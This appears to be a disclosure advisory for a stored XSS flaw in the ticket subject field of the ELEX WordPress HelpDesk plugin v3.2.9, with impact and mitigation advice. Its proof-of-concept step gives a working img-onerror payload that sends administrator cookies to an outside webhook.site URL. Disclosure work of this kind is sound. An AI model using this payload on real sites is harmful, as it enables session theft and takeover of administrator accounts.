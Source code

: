 # Stored XSS in ELEX WordPress HelpDesk & Customer Ticketing System (v3.2.9)

**CVE ID:** Pending  
**Discovered:** 2025-08-09  
**Reporter:** [Your Name or Handle]  
**Status:** Vendor notified, patch pending  
**Severity:** High  
**CWE:** [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)

---

## Description

A **Stored Cross-Site Scripting (XSS)** vulnerability exists in **ELEX WordPress HelpDesk & Customer Ticketing System** version **3.2.9**.  
The vulnerability occurs due to the application's failure to properly sanitize user input in the **ticket subject field** before rendering it in the administrator ticket view.

An attacker can exploit this flaw by injecting malicious JavaScript code into the ticket subject. When an administrator visits the ticket management panel, the injected script executes in the admin's browser within the context of the WordPress site. This can lead to **cookie theft, session hijacking, or full compromise of the administrator account**.

---

## Affected Product

- **Plugin Name:** ELEX WordPress HelpDesk & Customer Ticketing System  
- **Version:** 3.2.9  
- **Vulnerability Type:** Stored XSS  
- **Impact:** Administrator account compromise, session hijacking, theft of sensitive information  
- **Authentication Required:** Not required (depending on site configuration — the issue is exploitable if ticket submission is allowed for unauthenticated users)

---

## Proof of Concept (PoC)

> **Note:** This PoC is provided for educational and testing purposes only. Do not use against systems without proper authorization.

1. Access the ticket submission form provided by the plugin.  
   (If the site allows public submissions, no authentication is required. Otherwise, log in as a low-privileged user.)

2. In the **Subject** field of the ticket form, insert the following payload:
<img src=x onerror="(new Image).src='https://webhook.site/3bdce340-f98e-4d53-9d40-f93c94df619a?c='+encodeURIComponent(document.cookie)">

3. Submit the ticket.

4. When an administrator logs in to the WordPress admin panel and navigates to:
WSDesk → Ticket
the ticket subject is rendered without proper sanitization.

5. The payload executes immediately — even without the admin opening the ticket — sending the admin's cookies to the attacker's webhook.

## Impact
Successful exploitation allows an attacker to:

- Execute arbitrary JavaScript in the administrator’s browser.

- Steal administrator cookies or session tokens.

- Perform actions on behalf of the administrator (privilege escalation).

- Potentially gain full control of the WordPress site.

## Mitigation
Until a patch is released, it is recommended to:

- Restrict ticket submission to authenticated and trusted users only.

- Sanitize and escape all user input before rendering in HTML.

- Use WordPress functions like esc_html() and wp_kses() when outputting dynamic content.

## Timeline
2025-08-09 — Vulnerability discovered.
2025-08-09 — Vendor notified.
Pending — Vendor response.
Pending — CVE assignment.

## References
CWE-79: https://cwe.mitre.org/data/definitions/79.html
OWASP XSS Prevention Cheat Sheet: https://owasp.org/www-community/xss-prevention

